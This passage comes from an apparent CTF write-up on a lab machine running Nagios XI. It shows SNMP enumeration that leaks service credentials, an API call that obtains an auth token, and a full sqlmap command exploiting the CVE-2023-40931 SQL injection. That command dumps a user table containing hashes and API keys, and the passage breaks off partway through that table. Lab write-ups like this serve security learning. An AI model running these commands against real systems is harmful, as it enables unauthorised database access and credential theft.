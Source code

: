 I tried some default creds but did not succeed. Looks like a dead end. Next i tried enumerating snmp using snmpwalk. After taking some sips of coffee this caught my eyes

```shell
snmpwalk -v2c -c public -m ALL 10.10.11.248
````SNIP```
HOST-RESOURCES-MIB::hrSWRunParameters.951 = STRING: "/usr/sbin/snmptt --daemon"
HOST-RESOURCES-MIB::hrSWRunParameters.952 = STRING: "/usr/sbin/snmptt --daemon"
HOST-RESOURCES-MIB::hrSWRunParameters.964 = STRING: "-pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6"
HOST-RESOURCES-MIB::hrSWRunParameters.1475 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
HOST-RESOURCES-MIB::hrSWRunParameters.1476 = STRING: "-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
HOST-RESOURCES-MIB::hrSWRunParameters.1494 = STRING: "-bd -q30m"
HOST-RESOURCES-MIB::hrSWRunParameters.4641 = ""
````SNIP```
```

It looks like a script that was run by svc with some credentials. After doing some research i came across this [authenticate](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783) which shows you how to autheticate with the api endpoint ``/api/v1/authenticate/``

```shell
pl4int3xt@archlinux ~> curl -X POST -k -L -d 'username=svc&password=XjH7VCehowpR1xZB' https://nagios.monitored.htb/nagiosxi/api/v1/authenticate/
{"username":"svc","user_id":"2","auth_token":"bb18683a8869f068f4de5493de000a0ee3d5b850","valid_min":5,"valid_until":"Thu, 22 Feb 2024 09:03:59 -0500"}
```

After autheticating to the api i got an auth_token. Doing more research i came across this blog thats talks about an sqlinjection [CVE-2023-40931](https://outpost24.com/blog/nagios-xi-vulnerabilities/).I then proceeded and run the exploit on the specified endpoint using the auth token i got.

```shell
pl4int3xt@archlinux ~> sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=bb18683a8869f068f4de5493de000a0ee3d5b850" --batch --level 5 --risk 3 -p id -D nagiosxi -T xi_users --dump
````SNIP```
Database: nagiosxi
Table: xi_users
[3 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomF
VG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 1708619156   | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 5              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgA
```